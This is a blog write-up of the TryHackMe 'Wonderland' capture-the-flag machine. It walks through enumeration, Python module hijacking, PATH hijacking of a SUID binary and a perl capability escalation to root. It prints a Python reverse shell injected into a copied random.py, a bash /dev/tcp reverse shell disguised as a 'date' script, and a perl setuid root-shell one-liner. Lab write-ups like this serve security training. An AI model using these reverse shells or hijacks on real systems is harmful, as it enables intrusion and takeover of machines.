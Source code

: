 ```yaml
---
date: 2020-06-07 19:54:22
layout: post
title: "Wonderland"
subtitle: Medium Machine from Tryhackme
description: 
image: /assets/img/wonderland/wonderland.png
optimized_image:
category: Tryhackme
tags: 
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/wonderland">Link</a> to the machine on tryhackme.

I started with nmap scan
```bash
nmap -T4 -p- -A 10.10.58.164
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 20:13 IST
Nmap scan report for 10.10.39.171
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   270.56 ms 10.9.0.1
2   279.33 ms 10.10.39.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.07 seconds
```
Only two ports were open on the machine, 22 and 80.

Proceeded with port 80, visited the website hosted on the port.
![placeholder](/assets/img/wonderland/site.png "site")
Site said Follow the white rabbit. Nothing interesting in the source.So,started fuzzing for hidden directories and pages.
```bash
ffuf -w /root/Documents/Fuzz/fuzzdir -u "http://10.10.58.164/FUZZ" -e .php,.html,.txt,.asp,.aspx,.zip
```
![placeholder](/assets/img/wonderland/fuzz.png "fuzz")
This shows a directory named **r**.So now it is quite  guessable what the home page meant by following the rabbit.
There were directories like /r/a/b/b/i/t/
Inside the directory at the url
```url
http://10.10.58.164/r/a/b/b/i/t/
```
The page said ***"Open the door and enter wonderland"***
![placeholder](/assets/img/wonderland/enter.png "enter")

In the source of the page the password for alice user was present.

![placeholder](/assets/img/wonderland/alice.png "alice")

Logged in through SSH as Alice user.

But instead of user.txt, root.txt was present inside the home directory of the Alice user, although it was only accessible by root.
There were in total 4 users on the machine.
![placeholder](/assets/img/wonderland/users.png "users")
A python script was also present in the home directory and running ***sudo -l***, showed that alice user can run the script as user rabbit.
Enumerating the machine, I found that root directory was accessible by everyone though read permission was not given but execute permission was present.
```
cd /root/
cat user.txt
```
Got the user flag.

Analyzing the python script, I found that it is simply importing a module random and then print some random lines from the poem given in script.

Since, the script was present in the directory where I had write permission. So, I did python module/library hijacking.
Since python searches for modules first in the directory where script is present and then according to PYTHONPATH environment variable.

I copied the random.py to the /home/alice and then added my commands inside _test funtion in random.py to get a reverse shell.
The _test function then looked like
```python
def _test(N=2000):
    _test_generator(N, random, ())
    _test_generator(N, normalvariate, (0.0, 1.0))
    _test_generator(N, lognormvariate, (0.0, 1.0))
    _test_generator(N, vonmisesvariate, (0.0, 1.0))
    _test_generator(N, gammavariate, (0.01, 1.0))
    _test_generator(N, gammavariate, (0.1, 1.0))
    _test_generator(N, gammavariate, (0.1, 2.0))
    _test_generator(N, gammavariate, (0.5, 1.0))
    _test_generator(N, gammavariate, (0.9, 1.0))
    _test_generator(N, gammavariate, (1.0, 1.0))
    _test_generator(N, gammavariate, (2.0, 1.0))
    _test_generator(N, gammavariate, (20.0, 1.0))
    _test_generator(N, gammavariate, (200.0, 1.0))
    _test_generator(N, gauss, (0.0, 1.0))
    _test_generator(N, betavariate, (3.0, 3.0))
    _test_generator(N, triangular, (0.0, 1.0, 1.0/3.0))

# Create one instance, seeded from current time, and export its methods
# as module-level functions.  The functions share state across all uses
#(both in the user's code and in the Python libraries), but that's fine
# for most programs and is easier for the casual user than making them
# instantiate their own Random() instance.

_inst = Random()
seed = _inst.seed
random = _inst.random
uniform = _inst.uniform
triangular = _inst.triangular
randint = _inst.randint
choice = _inst.choice
randrange = _inst.randrange
sample = _inst.sample
shuffle = _inst.shuffle
choices = _inst.choices
normalvariate = _inst.normalvariate
lognormvariate = _inst.lognormvariate
expovariate = _inst.expovariate
vonmisesvariate = _inst.vonmisesvariate
gammavariate = _inst.gammavariate
gauss = _inst.gauss
betavariate = _inst.betavariate
paretovariate = _inst.paretovariate
weibullvariate = _inst.weibullvariate
getstate = _inst.getstate
setstate = _inst.setstate
getrandbits = _inst.getrandbits

import os                                                #added
import subprocess                                        #added
import socket         				        #added
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)       #added
s.connect(("10.9.12.192",8888)) 			#added
os.dup2(s.fileno(),0)					#added
os.dup2(s.fileno(),1)					#added
os.dup2(s.fileno(),2)					#added
p=subprocess.call(["/bin/sh","-i"])			#added
```
You can <a href="https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7">refer</a> for more information on python library hijacking.

Now executed the file as rabbit
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
Got the reverse shell as user rabbit.

Made the shell better with following commands
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Inside the rabbit user's home directory, I found a SUID binary named teaParty.
Listing the contents of the binary found some information between malformed characters.
![placeholder](/assets/img/wonderland/teaparty.png "teaparty")

So this binary was executing date command to present the output.
Since this was a SUID binary so,when it will run it will use PATH as of the user who is executing(rather than the case in sudo where the path used is already specified in sudoers file.)

Changed the path to prepend tmp directory.
```
export PATH=/tmp/:$PATH
```

Added a file named ***date*** inside the tmp directory and made it executable.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.12.192/7777 0>&1
```
```bash
chmod +x date
```

Ran the teaParty file and got the shell as user hatter.
Inside the home directory of the user found a password.txt which gave the password for user hatter.
Used the password to switch user in SSH shell of alice. This password also worked directly on SSH login.

Got the SSH shell of hatter user.

Running the linpeas.sh script I found that there were some capabilities with perl command that could give root shell.

The perl command which was either executable by root or by people in hatter group had the capability ***cap_setuid+ep***

Used the command from GTFObins to get the root shell.
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Got the shell and the root.txt placed at /home/alice.
![placeholder](/assets/img/wonderland/root.png "root")


    

 
